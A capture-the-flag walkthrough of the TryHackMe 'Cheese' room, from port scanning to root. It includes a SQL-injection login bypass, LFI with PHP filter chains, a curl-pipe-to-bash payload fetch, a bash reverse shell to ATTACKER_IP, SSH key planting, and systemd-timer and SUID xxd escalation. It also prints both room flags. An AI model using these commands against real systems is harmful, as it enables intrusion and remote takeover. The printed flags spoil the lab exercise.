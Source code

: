 # CHEESE CTF | TryHackMe Room
![1](./images/0.png)
<a> This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.</a>


### **1. Initial Reconnaissance**

**Port Scanning**

- <a> Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).</a>
![1](./images/1.png)

- <a> Found that FTP (21), SSH (22), and HTTP (80) were open.</a>
- <a> Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.</a>
![1](./images/2.png)

**FTP Enumeration**

- <a> Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.</a>
 ![1](./images/3.png)

<a>Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).</a>

**Web Enumeration (Port 80)**
- <a> Visited http://<TARGET_IP> and inspected the page.</a> 
![1](./images/4.png)

- <a> Checked the source code for hidden comments or secrets—nothing found.</a> 
![1](./images/5.png)

- <a> Discovered a login page (/login.php). </a> 
![1](./images/6.png)



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- <a> Ran SQLmap to test for SQLi:</a> 

  ```bash
    sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch

- ![1](./images/7.png)

- <a> Found a SQL injection vulnerability in the login form and the redirection.</a> 
 ![1](./images/8.png)

- <a> Extracted database information, including a username (comte) and its password hash.</a> 
 ![1](./images/9.png)


**Manual SQL Injection Bypass**

- <a> Used a classic SQLi payload to bypass authentication:</a> 
  ```bash
     Username: comte ' AND 1='1 --
     Password: anything

- ![1](./images/10.png)

- <a> Successfully logged in and was redirected to a dashboard (/dashboard.php).</a> 
 ![1](./images/11.png)



### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- <a> Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.</a> 
 ![1](./images/12.png)


**Reading PHP Files via Base64 Encoding**
- <a> Used PHP filters to read source code:</a> 
   ```bash
     ?file=php://filter/convert.base64-encode/resource=secret-script.php
 - ![1](./images/13.png)


- <a> Decoded the Base64 output to analyze secret-script.php.</a> 
 ![1](./images/14.png)


**Log Poisoning → RCE**

- <a> Since the server used PHP, leveraged PHP wrappers for RCE:
Generated a malicious payload(revshell) with this bash reverse shell.</a> 
   ```bash
      bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
- <a> I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command</a> 

  ```bash
    python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'
- ![1](./images/15.png)

- <a> Hosted it on a local server and triggered it via LFI.</a> 
  ```bash
     python3 -m http.server 80
- <a> Set up a listener  and received a shell.</a> 
  ```bash
    nc -lvnp <port>
 - ![1](./images/16.png)


**User Flag**
- <a> Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`</a> 
 ![1](./images/17.png)

- <a> Found that /home/comte/.ssh/ had write permissions.</a> 
 ![1](./images/18.png)

- <a> Generated an SSH key pair (ssh-keygen).</a> 
 ![1](./images/19.png)

- <a> Copied the public key (.pub) into authorized_keys.</a> 
 ![1](./images/20.png)

- <a> Logged in via SSH and obtained the user flag.</a> 
   ```bash
    ssh comte@<TARGET_IP>
 - ![1](./images/21.png)
   ```bash
    THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- <a> Checked sudo privileges (sudo -l), found systemctl access.</a> 
 ![1](./images/22.png)
- <a> Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:</a> 
  ``` bash
    OnBootSec=0  
    OnUnitActiveSec=0  

 - ![1](./images/23.png)


- <a> Found the services it will triggered</a> 

 ![1](./images/24.png)

- <a> I looked in the .services and then I started the timer.</a> 
   ```bash
   sudo systemctl start exploit.timer
 - ![1](./images/25.png)


**Reading Root Flag via xxd**
- <a> Found that xxd (a hexdump utility) saved as a copy had SUID permissions.</a> 
 ![1](./images/26.png)

- <a> Used xxd to read /root/root.txt:</a> 
   ```bash
    xxd "/root/root.txt" | xxd -r
 - ![1](./images/27.png)
   ```bash
    THM{dca75486094810807faf4b7b0a929b11e5e0167c}
